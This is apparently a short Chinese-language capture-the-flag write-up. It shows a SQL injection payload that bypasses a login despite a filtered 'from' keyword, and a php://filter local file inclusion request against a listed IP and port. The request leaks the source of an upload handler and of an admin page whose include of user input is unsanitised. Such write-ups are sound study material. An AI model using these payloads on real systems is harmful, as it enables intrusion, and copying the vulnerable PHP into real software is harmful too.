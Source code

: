 有个问题是from被过滤了，那么只能注当前表，可惜密码解不开，但是我们可以巧妙绕过

```
username=' union select '0cc175b9c0f1b6a831c399e269772661'%23
&password=a
```

发现了admininfile.php文件，有文件包含漏洞
```
http://106.75.30.59:2333/admin/admininfile.php?name=php://filter/read=convert.base64-encode/resource=upload
```
得到源码
```
upload.php
<?php
	require_once '../connect.php';
	checkLogined();
	if($_FILES){
		$upfile=$_FILES["file"]["name"];
		$fileTypes=array(
				'jpg', 'png','gif','zip','rar','txt');

		function getFileExt($file_name) {
			while($dot = strpos($file_name, ".")) {
				$file_name = substr($file_name, $dot+1);
			}
			return $file_name;
		}
		$test1= strtolower(getFileExt($upfile));
		if(!in_array($test1, $fileTypes)) 
		{

			exit();
		}
		else{
			$nfile=md5(rand(10,1000).time()).".".$test1;
			move_uploaded_file($_FILES["file"]["tmp_name"], "../file123asdp/" . $nfile);
			echo "ok!<a href=../file123asdp/".$nfile.">$nfile</a>";
		}
	}
?>

```
还有admininfile.php
```
admininfile.php
<?php
	$file=$_GET['name'].'.php';
	if(!file_exists($file)){
		echo $file." not exists!";
	}
	include($file);
?>

```

